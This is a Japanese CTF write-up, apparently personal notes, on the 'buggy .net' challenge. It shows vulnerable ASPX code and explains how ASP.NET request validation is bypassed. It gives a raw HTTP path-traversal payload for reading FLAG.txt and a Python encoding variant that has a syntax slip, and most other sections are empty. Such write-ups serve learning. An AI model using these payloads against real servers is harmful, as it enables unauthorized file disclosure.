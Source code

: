 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [writeup](#writeup)
  - [](#)
  - [](#-1)
  - [](#-2)
  - [](#-3)
  - [](#-4)
  - [](#-5)
- [memo](#memo)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# writeup
## 
https://github.com/orangetw/My-CTF-Web-Challenges#buggy.net  
https://ctftime.org/writeup/16802  
- **entrypoint**  
以下のソースが与えられる。  
明らかにLFIできそうだけど`Request.Form["filename"].Contains("..")`でそれを検知している。  
```aspx
bool isBad = false;
try {
    if ( Request.Form["filename"] != null ) {
        isBad = Request.Form["filename"].Contains("..") == true;
    }
} catch (Exception ex) {
    
} 

try {
    if (!isBad) {
        Response.Write(System.IO.File.ReadAllText(@"C:\inetpub\wwwroot\" + Request.Form["filename"]));
    }
} catch (Exception ex) {

}
```
サイトにアクセスすると以下のようにバージョンがわかり、ASP.NET 4.0だとわかる。  
```txt
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/10.0
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
[...]
```
よくわからんけどどうやらASPの`Request.Form`に初めにアクセスするときに、
`validateRequest="false"`になっていない限り、ASPが自動で`Request.Form`や`Request.QueryString`の値
をチェックして`<x`みたいなXSSがないかどうか確認して、もし検知すれば例外をスローするらしい。  
そして、その例外をスローするのははじめに`Request`オブジェクトにアクセスしたときだけで、それ以降は
`Request.Form["filename"]`みたいにして普通に値を取り出せるらしい？？？  
そして、はじめに例外をスローするのに時間がかかるらしくて、はじめに例外をスローして、if文の中には
入らないけど例外でストップするのは、そのあとのLFIを実行した後になる、らしい？？？  
- **payload**  
```txt
GET / HTTP/1.1
Host: 52.197.162.211
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Referer: http://52.197.162.211/

filename=%2E%2E%5C%2E%2E%5CFLAG.txt&o=%3Cx
```
以下でも行けるらしい。`charset=ibm500`になってる…よくわからん…  
```python
from urllib import quote

s = lambda x: quote(x.encode('ibm500'))
print '%s=%s&x=%s' % (s('filename'), s('../../FLAG.txt', s('<x>'))
```
## 
https://github.com/orangetw/My-CTF-Web-Challenges#why-so-serials  
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  

# memo
